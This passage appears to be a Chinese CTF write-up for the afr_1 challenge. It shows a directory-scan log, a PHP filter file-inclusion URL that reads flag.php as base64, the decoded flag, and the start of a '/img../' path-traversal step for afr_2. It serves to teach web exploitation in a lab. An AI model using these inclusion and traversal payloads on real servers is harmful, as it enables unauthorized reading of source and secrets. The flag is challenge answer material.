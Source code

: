 ```bash

[10:34:26] Starting: 
[10:34:28] 403 -  331B  - /.ht_wsr.txt                                     
[10:34:28] 403 -  331B  - /.htaccess.bak1                                  
[10:34:28] 403 -  331B  - /.htaccess.sample
[10:34:28] 403 -  331B  - /.htaccess.orig
[10:34:28] 403 -  331B  - /.htaccess.save
[10:34:28] 403 -  331B  - /.htaccess_extra
[10:34:28] 403 -  331B  - /.htaccess_orig
[10:34:28] 403 -  331B  - /.htaccess_sc
[10:34:28] 403 -  331B  - /.htaccessBAK
[10:34:28] 403 -  331B  - /.htaccessOLD
[10:34:29] 403 -  331B  - /.htm
[10:34:29] 403 -  331B  - /.html
[10:34:29] 403 -  331B  - /.httr-oauth
[10:34:29] 403 -  331B  - /.htaccessOLD2
[10:34:29] 403 -  331B  - /.htpasswds
[10:34:29] 403 -  331B  - /.htpasswd_test                                  
[10:34:29] 403 -  331B  - /.php                                            
[10:34:42] 200 -    8B  - /flag.php                                         
[10:34:43] 302 -    0B  - /index.php/login/  ->  /?p=hello                  
[10:34:43] 302 -    0B  - /index.php  ->  /?p=hello                         
[10:34:50] 403 -  331B  - /server-status/                                   
[10:34:50] 403 -  331B  - /server-status                                    
                                                                             
Task Completed
```

使用`php filter`来读取`flag.php`文件中的内容，`/?p=php://filter/convert.base64-encode/resource=flag`：

```
https://1254-f911ecc1-794c-450b-88b5-3ea1109f3b20.do-not-trust.hacking.run/?p=php://filter/convert.base64-encode/resource=flag
```

得到以下回显：

```
PD9waHAKZGllKCdubyBubyBubycpOwovL24xYm9va3thZnJfMV9zb2x2ZWR9
```

进行`base64`解码得到`flag`：`n1book{afr_1_solved}`。

```bash
<?php
die('no no no');
//n1book{afr_1_solved}
```

------

### [afr_2](https://ce.pwnthebox.com/challenges?id=284)

靶机中有一张`gif`图，其路径为`/img/img.gif`，访问`/img/`一无所获，访问`/img../`可以看到以下目录：
